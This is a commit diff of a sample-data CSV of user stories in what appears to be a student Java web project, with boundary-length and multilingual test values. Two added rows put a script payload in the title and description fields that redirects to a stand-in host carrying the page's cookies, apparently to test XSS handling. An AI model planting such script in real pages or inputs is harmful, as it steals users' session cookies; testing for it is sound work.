

Before and after one commit to rafcasceb/Acme-SF-D04, a CSV file: src/main/webapp/WEB-INF/resources/sample-data/user-story.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
fix(Projects): Fixed population projects #116
Added four new user accounts.

Closes #116.

```diff
--- a/src/main/webapp/WEB-INF/resources/sample-data/user-story.csv
+++ b/src/main/webapp/WEB-INF/resources/sample-data/user-story.csv
@@ -8,15 +8,15 @@ user-story-06,Λορεμ ιπσθμ δολορ σιτ αμετ,Description 1,11,
 user-story-07,коза коза,Description 1,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-04
-user-story-08,Title 1,a,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-04
-user-story-09,Title 1,Filler description to reach one hundred (100) characters in attribute description of the user story.,11,Acceptance criteria 1,MUST,https://link1.com,manager-01,project-05
-user-story-10,Title 1,Λορεμ ιπσθμ δολορ σιτ αμετ,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
-user-story-11,Title 1,Description 1,0,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
-user-story-12,Title 1,Description 1,1,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
-user-story-13,Title 1,Description 1,100,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
-user-story-14,Title 1,Description 1,199,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
-user-story-15,Title 1,Description 1,200,Acceptance criteria 1,MUST,https://link1.com,manager-01,project-10
-user-story-16,Title 1,Description 1,11,a,MUST,https://link1.com,manager-01,project-10
-user-story-17,Title 1,Description 1,11,Filler acceptance criteria to reach one hundred (100) characters in same attribute of an user story.,MUST,https://link1.com,manager-01,project-10
-user-story-18,Title 1,Description 1,11,Λορεμ ιπσθμ δολορ σιτ αμετ,MUST,https://link1.com,manager-01,project-10
-user-story-19,Title 1,Description 1,11,Acceptance criteria 1,SHOULD,https://link1.com,manager-01,project-10
-user-story-20,Title 1,Description 1,11,Acceptance criteria 1,COULD,https://link1.com,manager-01,project-10
-user-story-21,Title 1,Description 1,11,Acceptance criteria 1,WONT,https://link1.com,manager-02,project-15
+user-story-08,<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>,Description 1,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-04
+user-story-09,Title 1,a,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-04
+user-story-10,Title 1,Filler description to reach one hundred (100) characters in attribute description of the user story.,11,Acceptance criteria 1,MUST,https://link1.com,manager-01,project-05
+user-story-11,Title 1,Λορεμ ιπσθμ δολορ σιτ αμετ,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-12,Title 1,貸んい建濯よ芝弾テソ,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-13,Title 1,<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>,11,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-14,Title 1,Description 1,0,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-15,Title 1,Description 1,1,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-16,Title 1,Description 1,100,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-17,Title 1,Description 1,199,Acceptance criteria 1,MUST,https://link1.com,manager-02,project-06
+user-story-18,Title 1,Description 1,200,Acceptance criteria 1,MUST,https://link1.com,manager-01,project-10
+user-story-19,Title 1,Description 1,11,a,MUST,https://link1.com,manager-01,project-10
+user-story-20,Title 1,Description 1,11,Filler acceptance criteria to reach one hundred (100) characters in same attribute of an user story.,MUST,https://link1.com,manager-01,project-10
+user-story-21,Title 1,Description 1,11,Λορεμ ιπσθμ δολορ σιτ αμετ,MUST,https://link1.com,manager-01,project-10
```
Also changed, not shown: 5 added rows and 6 edited cells elsewhere in this file, src/main/webapp/WEB-INF/resources/sample-data/manager.csv, src/main/webapp/WEB-INF/resources/sample-data/project.csv, 1 other file.
